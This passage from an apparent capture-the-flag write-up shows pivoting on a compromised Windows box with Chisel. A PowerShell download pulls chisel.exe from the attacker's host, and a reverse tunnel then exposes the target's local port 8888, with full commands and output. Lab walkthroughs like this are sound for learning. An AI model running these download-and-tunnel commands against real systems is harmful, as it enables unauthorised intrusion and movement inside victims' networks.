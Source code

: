 To use the exploit, we need port forwarding.<br>
This time, [Chisel](https://github.com/jpillora/chisel) was used for the purpose.<br>
Run a web server on the localhost, upload the windows binary and run on the target machine.

#### On the localhost
```
root@kali:~# chmod +x chisel
root@kali:~# sudo ./chisel server -p 8001 --reverse -v
2020/12/29 12:52:49 server: Reverse tunnelling enabled
2020/12/29 12:52:49 server: Fingerprint 8fU8yodGKrxrXrjHCh9cAFAWAccwXWRyHQJCACbgB1g=
2020/12/29 12:52:49 server: Listening on http://0.0.0.0:8001

root@kali:~# ls | grep chisel
chisel
chisel.exe

root@kali:~# python3 -m http.server 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

```

#### On the target machine
```
C:\Users\shaun\Downloads>powershell Invoke-WebRequest -Uri http://10.10.14.42:8000/chisel.exe -OutFile chisel.exe
powershell Invoke-WebRequest -Uri http://10.10.14.42:8000/chisel.exe -OutFile chisel.exe

C:\Users\shaun\Downloads>chisel.exe client 10.10.14.42:8001 R:8888:127.0.0.1:8888
chisel.exe client 10.10.14.42:8001 R:8888:127.0.0.1:8888
2020/12/29 04:03:11 client: Connecting to ws://10.10.14.42:8001
2020/12/29 04:03:13 client: Connected (Latency 244.1625ms)

```

#### On the localhost
```
root@kali:~# sudo ./chisel server -p 8001 --reverse -v
2020/12/29 12:52:49 server: Reverse tunnelling enabled
2020/12/29 12:52:49 server: Fingerprint 8fU8yodGKrxrXrjHCh9cAFAWAccwXWRyHQJCACbgB1g=
2020/12/29 12:52:49 server: Listening on http://0.0.0.0:8001
2020/12/29 12:55:09 server: session#1: Handshaking...
2020/12/29 12:55:10 server: session#1: Verifying configuration
2020/12/29 12:55:10 server: session#1: tun: Created
2020/12/29 12:55:10 server: session#1: tun: SSH connected
2020/12/29 12:55:10 server: session#1: tun: proxy#R:8888=>8888: Listening
2020/12/29 12:55:10 server: session#1: tun: Bound proxies

```

#### On the localhost (another window)
```
root@kali:~# ss -antp | grep 8888
LISTEN 0      4096                      *:8888                      *:*     users:(("chisel",pid=117962,fd=8))   
```
